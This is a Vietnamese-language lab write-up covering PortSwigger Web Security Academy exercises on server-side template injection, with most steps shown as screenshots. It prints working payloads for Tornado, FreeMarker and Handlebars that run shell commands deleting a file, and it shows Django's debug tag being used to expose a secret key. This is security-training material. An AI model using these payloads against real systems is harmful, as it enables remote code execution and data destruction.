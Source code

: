 # SSTI

## 1. Basic server-side template injection
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic

Context: \
![alt text](image.png)

Ta đưa vào intruder để thử các payload SSTI và dùng Grep Extract để lấy đầu ra:\
![alt text](image-1.png)

![alt text](image-2.png)

![alt text](image-3.png)

---

## 2. Basic server-side template injection (code context)
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context

Context: \

Test thử 1 cú pháp: \
![alt text](image-4.png)

Quay lại trang blog để đọc comment của mình:\
![alt text](image-5.png)

Ta biết nó dùng Tornado template.

![alt text](image-6.png)

Check:\
![alt text](image-7.png)\
![alt text](image-8.png)

Thử với command:\
![alt text](image-9.png)\
![alt text](image-10.png)

Payload: `}}{%+import+os+%}{{+os.popen("rm+/home/carlos/morale.txt").read()+`

## 3. Server-side template injection using documentation
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation

Context: \
![alt text](image-11.png)\
![alt text](image-12.png)

Check:\
![alt text](image-13.png)

![alt text](image-14.png)

Ta biết được nó dùng FreeMaker

![alt text](image-15.png)

![alt text](image-16.png)

Payload: ` ${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}`

---

## 4. Server-side template injection in an unknown language with a documented exploit
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit

Context:\
![alt text](image-17.png)

![alt text](image-18.png)

Có vẻ như dùng NodeJS

![alt text](image-19.png)

Tìm hiểu thêm thì ta biết nó dùng Handlebars\
![alt text](image-20.png)

Payload: 
```json
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
---

## 5. Server-side template injection with information disclosure via user-supplied objects
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects

Context:\
![alt text](image-21.png)

Ta biết được đây là django: \
![alt text](image-22.png)

Đọc các thông tin về django ta biết được khi dùng `{% debug %}` ta có các thông tin của hệ thống:\
![alt text](image-24.png)

Xem secret key:\
![alt text](image-23.png)

---

## 6. 




